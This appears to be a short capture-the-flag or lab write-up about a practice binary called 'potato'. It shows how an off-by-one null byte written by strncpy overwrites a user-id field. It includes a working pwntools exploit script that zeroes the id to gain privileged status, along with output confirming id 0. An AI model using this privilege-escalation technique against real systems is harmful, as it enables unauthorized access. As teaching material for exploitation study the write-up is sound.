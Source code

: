By providing a string of length `52 + 1`, `strncpy` will overwrite the `0x27` byte of the `id` field with `0x00`,
by providing a string of length `52`, `strncpy` will overwrite the `0x10` byte.

```python
#!/usr/bin/env python3

from pwn import *

import sys

elf = ELF("./potato")

p = elf.process(["console"], stdin=PTY, aslr=False) # stdin=PTY for "getpass" password input
gdb.attach(p, '''
break main
break func.c:191
continue
''')

print(p.recvuntil(b"cmd> ")) # username
p.sendline(b"login")
# test user
p.sendline(b"peter")
p.sendline(b"12345")
print(p.recvuntil(b"cmd> ")) # username

# overwrite user structure with user-chosen id: 0
# This overwrites the bytes of the global user-id via the strncpy() call in func.c, 190
# since strncpy adds a null terminator at session.logged_in_user->name[54]
p.sendline(b"changename")
payload=b"\x41"*50 + b"\x42"*3
p.sendline(payload)

# Repeat the same for session.logged_in_user->name[53]
p.sendline(b"changename")
payload=b"\x41"*50 + b"\x42"*2
p.sendline(payload)

# all bytes in session.logged_in_user->id are now zero, we are privileged
# change name back to original
p.sendline(b"changename")
payload=b"peter"
p.sendline(payload)

p.interactive()
```

After returning to interactive mode, `whoami` displays the `id`of the current user as zero, i.e. privileged.

```bash
cmd> $ whoami
user(name='peter' id=0 gid=10000 home='/home/peter' shell='/usr/bin/rbash')
```
